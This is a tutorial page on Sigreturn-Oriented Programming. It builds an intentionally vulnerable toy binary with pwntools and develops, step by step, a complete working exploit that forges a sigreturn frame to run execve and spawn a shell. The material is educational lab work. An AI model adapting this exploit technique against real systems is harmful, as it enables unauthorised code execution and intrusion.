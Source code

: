 # Using SROP

## Source

As with the [syscalls](../exploitation-with-syscalls.md#the-source), I made the binary using the pwntools ELF features:

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

elf = ELF.from_assembly(
    '''
        mov rdi, 0;
        mov rsi, rsp;
        sub rsi, 8;
        mov rdx, 500;
        syscall;
        ret;
        
        pop rax;
        ret;
    ''', vma=0x41000
)
elf.save('vuln')
```

It's quite simple - a `read` syscall, followed by a `pop rax; ret` gadget. You can't control RDI/RSI/RDX, which you need to pop a shell, so you'll have to use SROP.

Once again, I added `/bin/sh` to the binary:

```bash
echo -en "/bin/bash\x00" >> vuln
```

## Exploitation

First let's plonk down the available gadgets and their location, as well as the location of `/bin/sh`.

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015
```

From here, I suggest you try the payload yourself. The padding \(as you can see in the assembly\) is `8` bytes until RIP, then you'll need to trigger a `sigreturn`, followed by the values of the registers.



The triggering of a `sigreturn` is easy - sigreturn is syscall `0xf` \(`15`\), so we just pop that into RAX and call `syscall`:

```python
payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
```

Now the syscall looks at the location of RSP for the register values; we'll have to fake them. They have to be in a specific order, but luckily for us pwntools has a cool feature called a `SigreturnFrame()` that handles the order for us.

```text
frame = SigreturnFrame()
```

Now we just need to decide what the register values should be. We want to trigger an `execve()` syscall, so we'll set the registers to the values we need for that:

```python
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
```

However, in order to trigger this we **also have to control RIP** and point it back at the `syscall` gadget, so the execve actually executes:

```python
frame.rip = SYSCALL_RET
```

We then append it to the payload and send.

```python
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

![Nailed it!](../../../../.gitbook/assets/image%20%2842%29.png)

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```



